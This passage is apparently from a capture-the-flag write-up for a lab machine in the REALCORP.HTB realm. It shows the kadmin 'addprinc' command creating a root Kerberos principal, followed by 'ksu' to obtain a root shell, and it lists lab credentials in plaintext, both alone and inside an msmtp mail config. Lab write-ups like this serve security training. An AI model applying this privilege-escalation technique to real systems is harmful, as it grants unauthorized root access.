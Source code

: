 ```bash
list_requests, lr, ?     List available requests.
quit, exit, q            Exit program.
```
An interesting instruction is "addprinc" which then can be abused to access to the machine as root:
```bash
kadmin:  addprinc root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
```
Finally with the newly created password for root and the "ksu" command we get root:
```bash
[admin@srv01 mail]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
[Last failed login: Mon Jan 23 21:06:14 GMT 2023 on pts/1]
[There was 1 failed login attempt since the last successful login.]
Changing uid to root (0)
[root@srv01 mail]# whoami
root

```

### Credentials
```bash
j.nakazawa@realcorp.htb:sJB}RM>6Z~64_
```
## File found on the docker machine:
```bash
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60
```

### Notes
